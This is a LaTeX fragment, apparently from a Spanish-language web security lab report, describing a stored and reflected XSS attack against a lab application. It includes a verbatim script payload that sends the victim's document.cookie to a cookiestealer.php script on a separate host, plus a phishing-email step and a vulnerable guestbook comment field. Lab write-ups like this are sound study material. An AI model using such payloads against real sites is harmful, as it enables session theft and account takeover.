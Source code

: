 \documentclass[12pt,twoside]{article}
\begin{document}
Un ataque más complejo, sería utilizando un CookieStealer. 
Subiremos el código del cookiestealer a un servidor (en este caso nuestro local).
\begin{figure}[H]
    \centering
    \includegraphics[scale=0.5]{./imagenes/servidor_con_cookiestealer}
    \caption{Subimos el codigo a nuestro server}
\end{figure}
Podemos hacer, mediante un mail a cualquiera de los usuarios, que abra una URL maliciosa, donde inyectamos el código para poder sobar la cookie.

\begin{verbatim}
<script>http://192.168.150.128/cookiestealer.php?
c=encodeURIComponent(btoa(document.cookie)</script>
\end{verbatim}

\begin{figure}[H]
    \centering
    \includegraphics[scale=0.35]{./imagenes/cookiesteal}
    \caption{Ejecución del robo de cookie}
\end{figure}
Y revisando el log.txt que genera, podemos encontrar la cookie robada.
\begin{figure}[H]
    \centering
    \includegraphics[scale=0.5]{./imagenes/cookie_robada}
    \caption{Cookie robada}
\end{figure}

También nos encontramos el mismo problema en los comentarios del apartado guestbook, que podemos explotar de la misma forma.
\begin{figure}[H]
    \centering
    \includegraphics[scale=0.45]{./imagenes/guestbook_comentario}
    \caption{Inyección en comentarios}
\end{figure}
\end{document}
